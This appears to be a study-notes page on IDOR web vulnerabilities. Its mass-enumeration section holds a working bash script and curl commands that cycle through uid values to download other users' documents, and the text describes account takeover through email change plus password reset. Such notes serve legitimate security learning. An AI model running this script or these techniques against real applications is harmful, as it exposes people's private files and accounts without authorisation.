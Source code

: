 ```yaml
---
layout: default
title: IDOR
permalink: /Web/idor/
---
```


# Insecure Direct Object Reference (IDOR)
IDOR vulnerabilities occur when a web application exposes a direct reference to an object, like a file or a database resource, which the end-user can directly control to obtain access to other similar objects. 
IDOR vulnerability mainly exists due to the lack of an access control on the back-end.

## Identifying IDORs
- Whenever we receive a specific file or resource, we should study the HTTP requests to look for URL parameters or APIs with an object reference (e.g. ?uid=1 or ?filename=file_1.pdf). These are mostly found in URL parameters or APIs but may also be found in other HTTP headers, like cookies. We can use a fuzzing application to try thousands of variations and see if they return any data. Any successful hits to files that are not our own would indicate an IDOR vulnerability.
- We may also be able to identify unused parameters or APIs in the front-end code in the form of JavaScript AJAX calls.
- Some web applications may not use simple sequential numbers as object references but may encode the reference or hash it instead.
- If we want to perform more advanced IDOR attacks, we may need to register multiple users and compare their HTTP requests and object references. This may allow us to understand how the URL parameters and unique identifiers are being calculated and then calculate them for other users to gather their data. We can try repeating the same API calls while logged in as the other user to see if the web application returns anything.

## Mass Enumeration
We can either use a tool like Burp Intruder or ZAP Fuzzer to retrieve all files or write a small bash script to download all files.
If the HTML source code of the links to view file is the following:
```
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
```
We can use this command:
```
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep "<li class='pure-tree_link'>"
```
Use regex to get the document links:
```
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"
```
Then we can use a simple for loop to loop over the uid parameter and return the document of all employees, and then use wget to download each document link:
```
#!/bin/bash

url="http://<IP>:<PORT>"

for i in {0..25}; do
  echo "Checking UID $i..."

  # Make POST request and extract file links of various types
  response=$(curl -s "$url/documents.php" --compressed -X POST \
    -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' \
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' \
    -H 'Accept-Language: en-US,en;q=0.5' \
    -H 'Accept-Encoding: gzip, deflate' \
    -H "Referer: $url/" \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    -H "Origin: $url" \
    -H 'DNT: 1' \
    -H 'Connection: keep-alive' \
    -H 'Upgrade-Insecure-Requests: 1' \
    -H 'Sec-GPC: 1' \
    -H 'Priority: u=0, i' \
    --data-raw "uid=$i")

  # Extract .pdf, .csv, .txt links (non-greedy, handles HTML fragments better)
  echo "$response" | grep -oP "/documents/.*?\.(pdf|csv|txt)" | while read -r link; do
    full_url="$url$link"
    echo "Downloading $full_url"
    wget -q "$full_url"
  done
done

```

## Bypassing Encoded References
We cutilize Burp Comparer and fuzz various values and then compare each to our hash to see if we find any matches.
If the hash was being calculated on the front-end, we can study the function and then replicate what it's doing to calculate the same hash.

## IDOR Insecure Function Calls
While IDOR Information Disclosure Vulnerabilities allow us to read various types of resources, IDOR Insecure Function Calls enable us to call APIs or execute functions as another user. Such functions and APIs can be used to change another user's private information, reset another user's password, or even buy items using another user's payment information. In many cases, we may be obtaining certain information through an information disclosure IDOR vulnerability and then using this information with IDOR insecure function call vulnerabilities. <br>
The ability to modify another user's details also enables us to perform several other attacks. One type of attack is modifying a user's email address and then requesting a password reset link, which will be sent to the email address we specified, thus allowing us to take control over their account. Another potential attack is placing an XSS payload in the 'about' field, which would get executed once the user visits their Edit profile page, enabling us to attack the user in different ways. <br>
On many occasions, the information we leak through IDOR vulnerabilities can be utilized in other attacks, like IDOR or XSS, leading to more sophisticated attacks or bypassing existing security mechanisms.
